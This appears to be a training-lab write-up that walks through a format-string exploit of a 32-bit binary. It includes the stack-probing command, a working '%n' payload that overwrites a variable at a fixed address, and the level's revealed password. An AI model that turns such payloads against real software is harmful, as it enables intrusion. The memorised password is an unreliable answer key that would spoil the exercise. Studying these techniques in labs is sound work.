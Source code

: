 # Level3

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level4
  teststring
  teststring
```

> It looks like this is similar to the previous level...

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). At first glance it appears that a **buffer overflow** won't be possible here since the program uses [`fgets()`](https://linux.die.net/man/3/fgets) and reads up to **512** bytes while the buffer is **520** bytes long.

There is a built-in way to output the next password if a variable we have no apparent control on is equal to **16930116**. We could update its value via the same attack as previous level using **format string**. This time, the variable is located at `0x08049810`.

Like before let's, first, identify which positional argument is our input.

```shell
  $> python -c 'print "AAAA" + " %p" * 16' | ./level4
AAAA 0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```

> This time our input is the 12th stack argument because there is more instructions between the variable and the `printf()` call. In this case, another nested function call.

Now that we know the format string position in the stack all we have to do is to create a **16930116** character long string containing the address of the variable involved in the condition to spawn the shell and output this length to its address using `%n`.

```
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112c%12$n"' | ./level4    
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

> We, first, write the address of the variable, which is already **4** bytes, so using `%16930112c` will add **16930112** spaces as padding resulting in a **16930116** character long string. Then all we have to do is output the number of character printed until this point using `%n` into the 4th positional argument which is indeed the address of the variable we want to change using `%12$`.

So next user credentials pair is `level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`.

Check [here](./source.c) for reproduction source-code of this binary.